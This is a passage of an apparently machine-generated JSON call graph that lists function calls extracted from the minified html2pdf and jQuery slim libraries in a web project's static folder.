"static/js/html2pdf.bundle.min.js", "target": "getType"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toContainer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toCanvas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toImg"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toPdf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toContainer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "checkSrc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "checkPageSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setPageSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "thenList"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "hidden"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "cloneNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toCanvas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "checkContainer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toContainer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "thenList"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_extends"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "onRendered"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toImg"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "checkCanvas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toCanvas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "thenList"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toDataURL"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toPdf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "checkCanvas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toCanvas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "thenList"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "jspdf_min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fillRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "drawImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "addPage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toDataURL"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "addImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "output"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "outputImg"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "outputPdf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "outputPdf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "checkPdf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toPdf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "thenList"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "output"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "outputImg"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "checkImg"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toImg"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "thenList"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "checkPdf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toPdf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "filename"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "thenList"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "set_prop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "set_jsPDF"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setPageSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "set_opt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "thenList"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "cbk"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setMargin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setPageSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getPageSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toPx"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toPx"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setProgress"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "updateProgress"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setProgress"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "thenCore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "updateProgress"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "updateProgress"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "updateProgress"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "thenCore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "convert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "convert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "thenExternal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "promise"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "thenList"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "thenCore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "convert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "catchExternal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "promise"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "information"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "type"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "class"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toContainer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "querySelectorAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "querySelectorAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getComputedStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toContainer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "querySelectorAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unitConvert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "link"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getClientRects"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unitConvert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toPdf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toContainer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setPage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "link"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getNumberOfPages"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setPage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "html2pdf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "init"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "merge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "pushStack"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "pushStack"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "pushStack"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "pushStack"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "pushStack"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "isPlainObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "isPlainObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "merge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "fromCharCode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "fromCharCode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "removeAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "shift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "attachEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "querySelectorAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": 